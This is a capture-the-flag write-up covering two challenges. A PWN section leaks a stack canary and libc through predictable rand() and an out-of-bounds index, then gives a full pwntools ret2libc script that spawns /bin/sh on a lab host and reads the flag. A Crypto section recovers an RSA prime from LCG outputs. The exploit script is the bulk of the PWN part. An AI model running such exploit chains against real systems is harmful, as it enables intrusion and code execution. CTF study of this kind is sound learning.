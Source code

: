 ## PWN
### a drop of tear
srand() is called using the first 4 bytes of the flag as seed, which we know is "ACS{", thus with that we can predict what numbers rand() will give

when you input "101", you can enter a byte. The byte you give will be used to index an array, and the value of arr[idx] will be used to do a comparison with rand()
```C
            uVar1 = rand();
            if (uVar1 == local_130) {
              puts("Correct! wow..");
              guessed_num();
            }
```

you can also perform operations on the value before it is compared with rand()
```C
            puts("what if choice is.....?");
            __isoc99_scanf(&%c,&local_135);
            getchar();
            if (local_135 == '/') {
              puts("divided by...?");
              __isoc99_scanf(&%d,&local_12c);
              getchar();
              local_130 = (int)local_130 / local_12c;
            }
            else {
              if (local_135 < '0') {
                if (local_135 == '-') {
                  puts("minus...?");
                  __isoc99_scanf(&%d,&local_12c);
                  getchar();
                  local_130 = local_130 - local_12c;
                }
                else {
                  if (local_135 < '.') {
                    if (local_135 == '*') {
                      puts("multiply...?");
                      __isoc99_scanf(&%d,&local_12c);
                      getchar();
                      local_130 = local_12c * local_130;
                    }
                    ...
```

the array has oob access using chars that have ascii code less than 0x41
```C
local_130 = local_128[(int)((local_130 & 0xff) - 0x41)];
``` 

Thus, we can use this to copy over values on the stack that we want to leak.


Since we know the random values that are going to be used, I shift the bit that we are trying to leak all the way to the left, and fill in the rest of the 31 bits using the predicted random value

I used multiplication to shift the bits left side since (a * 2\*\*n) is the same as a << n.

If I get the correct guess, it means that the bit is the same as the most significant bit as the random value, if the guess is wrong, then the bit is different.

We can use this to leak canary and libc, then perform a ret2libc on the stack by using the stack bof from option 102.

```py
from pwn import *
from ctypes import CDLL
#io = process("./tear",aslr=True)
io = remote("10.100.0.43",10002)
libc = ELF("./libc.so.6")
cdll_libc = CDLL('libc.so.6')
cdll_libc.srand(0x7b534341)

def brute_bit(s):
    # to use this func, bit alr has to be setup
    # only DONT change MSB
    state = s
    cur_rand = cdll_libc.rand()
    target = cur_rand & 0x7fffffff 
    state = (state&0x7fffff00) + ord('?') 
    diff = abs(target-state)    

    if (target > state):
        io.sendlineafter(b"relieved.",b"101")
        io.sendlineafter(b"luck",b"?") # to choose back guess
        io.sendlineafter(b"choice",b"+")
        io.sendlineafter(b"plus...?",str(diff).encode())
    
    else:
        io.sendlineafter(b"relieved.",b"101")
        io.sendlineafter(b"luck",b"?")
        io.sendlineafter(b"choice",b"-")
        io.sendlineafter(b"minus...?",str(diff).encode())

    resp = io.recvuntil(b"..")
    if b"wow" in resp:
        # bit matches the rand
        io.sendline(b"2069054273")
    
        # have to do this for some reason
        io.sendlineafter(b"relieved.",b"101")
        io.sendlineafter(b"luck",b"A")
        io.sendlineafter(b"choice",b"-")
        cdll_libc.rand() 
        
        return cur_rand >> 31

    else:
        # bit does not match the rand
        return not (cur_rand >> 31)


def brute_qword(idx,start_bit,end_bit,known=0):
    # brute start bit - end bit, inclusive
    qword = known

    for i in range(start_bit,end_bit+1):
        # load the ptr we want to leak
        # multiply 2**n shift n bytes to left
        io.sendlineafter(b"relieved.",b"101")
        io.sendlineafter(b"luck",idx.to_bytes(1,"little"))
        io.sendlineafter(b"choice",b"*")
        io.sendlineafter(b"multiply...?",str(2**(31-i)).encode())
        cdll_libc.rand() 

        new_bit = brute_bit(qword << (31-i))
        qword = (new_bit<<i) + qword

    log.info("QWORD BRUTED")
    return qword


canary = (brute_qword(0xc,0,31)<<32) + (brute_qword(0xb,8,31))
log.info("CANARY: " + hex(canary))

libc.address = (brute_qword(0x1c,0,15)<<32) + brute_qword(0x1b,8,31,known=0xe3) - libc.symbols["_IO_file_overflow"] - 259
log.info("LIBC BASE: " + hex(libc.address))

pop_rdi = p64(libc.address + 0x10f75b)
ret = p64(libc.address + 0x10f75c)

ret2libc = b"A"*0x108 + p64(canary) + p64(0) + ret
ret2libc +=  pop_rdi + p64(next(libc.search(b"/bin/sh"))) + p64(libc.symbols["system"])

io.sendlineafter(b"relieved.",b"102")
io.sendlineafter(b"skill.",ret2libc)

io.sendline(b"cat /home/acs_ctf/flag")
io.interactive()
```

## Crypto
### secret_encrypt
We just have to find the value of p to be able to decrypt the rsa, and p is processed in the secret() function

```py
def secret():
    global secret1,secret2,secret3,secret4
    result = 0
    temp_secret1 = secret1
    temp_secret3 = secret3
    while temp_secret3 > 0:
        if (temp_secret3 & 1) == 1:
            result = (result + temp_secret1) % secret2

        temp_secret1 = (temp_secret1 * 2) % secret2
        temp_secret3 >>= 1 # go to next bit
    secret1 = (result + secret4) % secret2
    return secret1
```

what secret() does is essentially:  
secret_1 = (secret_1\*secret_3 + secret_4) mod secret_2

After each secret() call, only secret_1 is edited, the other secrets remain constant

We are given the output of 3 secret() calls, so:
1. out1, calculated using secret_1 = p
2. out2, calculated using secret_1 = out1
3. out3, calculated using secret_1 = out2

Thus (s1 represents secret_1):
```
out1 = s1*s3 + s4
out2 = (s1*s2 + s4)*s3 + s4 
     = (s1)(s3)(s3) + s4(s3) + s4
out3 = ((s1)(s3)(s3) + s4(s3) + s4)s3 + s4 
     = (s1)(s3)(s3)(s3) + (s4)(s3)(s3) + s4(s3) + s4
```

And
```
out3 - out2*s3 = s4 = out2 - out1*s3

Solving the equation:
s3 = (out3-out2) / (out2-out1)
   = (out3-out2)*(out2-out1)^-1
s4 = out3-out2*s3 

out1 = s1*s3 + s4
s1 = (out1-s4)/s3
```

with that we can get p and can decrypt the ciphertext


```py
n=...
enc=...
secret_out=...

o1 = secret_out[0]
o2 = secret_out[1]
o3 = secret_out[2]
s2 = 2**1024
e = 65537


s3 = ((o3-o2)*inverse_mod(o2-o1,s2)) % s2
s4 = (o3-o2*s3) % s2
s1 = p = ((o1-s4)*inverse_mod(s3,s2)) % s2


# decrypt RSA
q = n/p
totient = (p-1)*(q-1)
d = inverse_mod(e,totient)

print(pow(enc,d,n))
```

